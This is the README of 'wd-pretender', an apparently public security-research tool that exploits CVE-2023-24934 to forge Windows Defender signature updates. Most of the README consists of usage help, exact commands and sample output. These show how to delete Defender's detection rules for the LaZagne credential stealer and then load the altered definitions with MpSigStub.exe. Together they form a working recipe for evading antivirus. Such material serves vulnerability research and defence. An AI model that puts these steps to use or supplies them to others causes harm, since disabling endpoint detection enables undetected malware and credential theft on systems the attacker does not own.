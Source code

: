# wd-pretender

## TL;DR
Compatible with Windows Defender platform version 4.18.2302.7 and earlier.


## Description
wd-pretender is a powerful tool designed to simulate a Windows Defender update using the [CVE-2023-24934](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2023-24934) vulnerability. This tool is intended for educational and research purposes only and should be used responsibly and with proper authorization. The primary objective of wd-pretender is to demonstrate potential security vulnerabilities and raise awareness about the importance of robust endpoint security measures.

## Features
- Bypass EDR Rules: Bypass certain Windows Defender security measures and remain undetected.

## Usage
```
-- Defender-Pretender: v1.0.0 (SafeBreach Labs) --

[+] Getting Signatures Location ...
usage: wd-pretender.py command [options]

Windows Defender Update

positional arguments:
  {bypass}
    bypass              bypass windows defender threats

optional arguments:
  -h, --help            show this help message and exit
  -o O                  output folder for the exported vdm files
  -d D                  set explicit definition update path
```

### Bypass
```
usage: wd-pretender.py command [options] bypass [-h] [-match MATCH | -name NAME | -id ID]

optional arguments:
  -h, --help    show this help message and exit
  -match MATCH  delete all threats that his name containes <name>
  -name NAME    delete threat by name
  -id ID        delete threat by his id
```

For example we want to bypass LaZagne rules and be able to execute LaZagne without been detected by Windows Defender.

```
python wd-pretender.py -o C:\BypassDefs bypass -match lazagne
```

Output:

```
python .\wd-pretender.py -o C:\BypassDefs bypass -match lazagne

        -- Defender-Pretender: v1.0.0 (SafeBreach Labs) --

[+] Getting Signatures Location ...
[+] Definitions Path: C:\ProgramData\Microsoft\Windows Defender\Definition Updates\{0E0FDC3E-A1A1-4500-9BEF-460F8E72E1C7}
[+] Initializing DefinitionUpdate
[+] Loading mpasbase.vdm
[+] Loading mpasdlta.vdm
[+] Loading mpavbase.vdm
[+] Loading mpavdlta.vdm

[#] Delete threats from Anti-Spyware definitions
[#] Delete threats from Anti-Virus definitions
      Deleting -> b'\xd8!LaZagne'
      Deleting -> b'HackTool:Python/LaZagne'
      Deleting -> b'HackTool:Python/LaZagne.A!MTB'
      Deleting -> b'\xd8!LaZagne!ml'
      Deleting -> b'HackTool:Python/LaZagne.D!MTB'
      Deleting -> b'\xcc!Golazagne.A!MTB'
      Deleting -> b'HackTool:Python/LaZagne.B'
      Deleting -> b'\xd8!LaZagne!sms'
      Deleting -> b'\xcc!Lazagne.A!MTB'
      Deleting -> b'\xcc\xe1Lazagne'
[+] Exporting definitions into: C:\BypassDefs
[+] mpasdlta.vdm: 1.389.2098.0 -> 1.389.2099.0
[+] mpavdlta.vdm: 1.389.2098.0 -> 1.389.2099.0
```
The output displays the deleted threat rules recorded by the tool, indicating the removal of 10 threats from the Anti-Virus definitions. The newly updated definitions have been exported to the user-supplied export path located at C:\BypassDefs.

To proceed, ensure that MpSigStub.exe is copied to the BypassDefs folder. Following that, execute the following command:

```
MpSigStub.exe /stub 1.1.18500.10 /payload <defintion_new_version>
```
The export log generated by wd-pretender confirms the presence of the updated definitions with the version indicated as <definition_new_version>.

To verify the successful update, please refer to the "MpSigStub.log" file located in the Temp folder of the user with whom the execution took place. For instance, if the tool was executed with administrator privileges (although it is not a requirement), the log file can be found at C:\Windows\Temp.

## License
wd-pretender is released under the MIT License. Feel free to modify and distribute this tool responsibly, while adhering to the license terms.